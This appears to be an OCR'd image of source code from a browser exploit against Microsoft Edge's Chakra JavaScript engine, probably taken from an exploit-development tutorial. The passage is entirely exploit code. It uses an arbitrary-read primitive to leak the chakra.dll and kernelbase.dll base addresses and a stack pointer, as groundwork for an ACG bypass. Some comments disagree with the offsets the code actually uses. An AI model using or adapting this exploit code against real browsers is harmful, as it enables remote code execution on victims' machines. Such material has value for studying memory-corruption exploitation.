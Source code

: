 ```html
    chakraLo = vtableLo - 0x5d0bf8;
    chakraHigh = vtableHigh;

    // Print update
    document.write("[+] chakra.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));
    document.write("<br>");

    // Leak a pointer to kernelbase.dll (KERNELBASE!DuplicateHandle) from the IAT of chakra.dll
    // chakra+0x5ee2b8 points to KERNELBASE!DuplicateHandle
    kernelbaseLeak = read64(chakraLo+0x5ee2b8, chakraHigh);

    // KERNELBASE!DuplicateHandle is 0x18de0 away from kernelbase.dll's base address
    kernelbaseLo = kernelbaseLeak[0]-0x18de0;
    kernelbaseHigh = kernelbaseLeak[1];

    // Store the pointer to KERNELBASE!DuplicateHandle (needed for our ACG bypass) into a more aptly named variable
    var duplicateHandle = new Uint32Array(0x4);
    duplicateHandle[0] = kernelbaseLeak[0];
    duplicateHandle[1] = kernelbaseLeak[1];

    // Print update
    document.write("[+] kernelbase.dll base address: 0x" + hex(kernelbaseHigh) + hex(kernelbaseLo));
    document.write("<br>");

    // Print update with our type pointer
    document.write("[+] type pointer: 0x" + hex(typeHigh) + hex(typeLo));
    document.write("<br>");

    // Arbitrary read to get the javascriptLibrary pointer (offset of 0x8 from type)
    javascriptLibrary = read64(typeLo+8, typeHigh);

    // Arbitrary read to get the scriptContext pointer (offset 0x450 from javascriptLibrary. Found this manually)
    scriptContext = read64(javascriptLibrary[0]+0x430, javascriptLibrary[1])

    // Arbitrary read to get the threadContext pointer (offset 0x3b8)
    threadContext = read64(scriptContext[0]+0x5c0, scriptContext[1]);

    // Leak a pointer to a pointer on the stack from threadContext at offset 0x8f0
    // https://bugs.chromium.org/p/project-zero/issues/detail?id=1360
    // Offsets are slightly different (0x8f0 and 0x8f8 to leak stack addresses)
    stackleakPointer = read64(threadContext[0]+0x8f8, threadContext[1]);

    // Print update
    document.write("[+] Leaked stack address! type->javascriptLibrary->scriptContext->threadContext->leafInterpreterFrame: 0x" + hex(stackleakPointer[1]) + hex(stackleakPointer[0]));
    document.write("<br>");
}
</script>
```
